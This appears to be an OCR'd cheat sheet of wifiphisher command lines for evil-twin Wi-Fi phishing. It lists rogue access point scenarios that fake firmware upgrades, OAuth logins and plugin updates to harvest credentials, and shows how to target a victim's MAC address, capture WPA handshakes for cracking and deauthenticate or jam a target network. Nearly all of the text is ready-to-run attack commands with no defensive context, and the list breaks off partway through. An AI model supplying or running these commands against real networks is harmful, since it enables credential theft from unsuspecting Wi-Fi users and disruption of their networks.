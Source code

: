 ### 1. Firmware Upgrade Scenario
    sudo wifiphisher -e "Free Wi-Fi" -p firmware-upgrade
---
### 2. Network Login Page Scenario
    sudo wifiphisher -e "Free Wi-Fi" -p oauth-login
---
### 3. Browser Plugin Update Scenario
    sudo wifiphisher -e "Free Wi-Fi" -p plugin-update
---
### 4. Open Redirect Scenario
    sudo wifiphisher -e "Free Wi-Fi" -p open-redirect
---
### 5. Credential Harvester Scenario
    sudo wifiphisher -e "Free Wi-Fi" -p capture-portal
---
### 6. Custom Scenario
    sudo wifiphisher -e "Free Wi-Fi" -p custom -pPD /path/to/your/phishing_page
---
### 2. Advanced Attack Commands
---
#### A. Evil Twin with No Internet (Force Login Captive Portal)
    sudo wifiphisher -e "Free Wi-Fi" --nointernet -p oauth-login
---
#### B. Targeting Specific Devices (MAC Filtering)
    sudo wifiphisher -e "Free Wi-Fi" --essid "Free Wi-Fi" --target-mac XX:XX:XX:XX:XX:XX -p firmware-upgrade
    Replace XX:XX:XX:XX:XX:XX with the victim’s MAC address.
---
#### C. Handshake Capture + Phishing (For WPA Cracking)
    sudo wifiphisher --handshake-capture handshake.cap -e "Free Wi-Fi" -p firmware-upgrade
---
#### D. Deauthentication Attack with Specific Channel
    sudo wifiphisher --deauth-essid "Target Network" --deauth-channels 6 -p plugin-update
---
#### E. Multi-Interface Mode (For Better Stability)
    sudo wifiphisher -aI wlan0 -jI wlan1 -p firmware-upgrade
    - -aI wlan0: Interface for creating the rogue AP.
    - -jI wlan1: Interface for jamming the target network.
---
#### E. Automatically pick the right interfaces. Target the Wi-Fi with ESSID "CONFERENCE_WIFI" and perform the "Plugin Update" scenario. The Evil Twin will be password-protected with PSK "s3cr3tp4ssw0rd".
    wifiphisher --essid CONFERENCE_WIFI -p plugin_update -pK s3cr3tp4ssw0rd
---
### Advanced Options You Can Add:
1. Disable Internet Access to Force Login:
   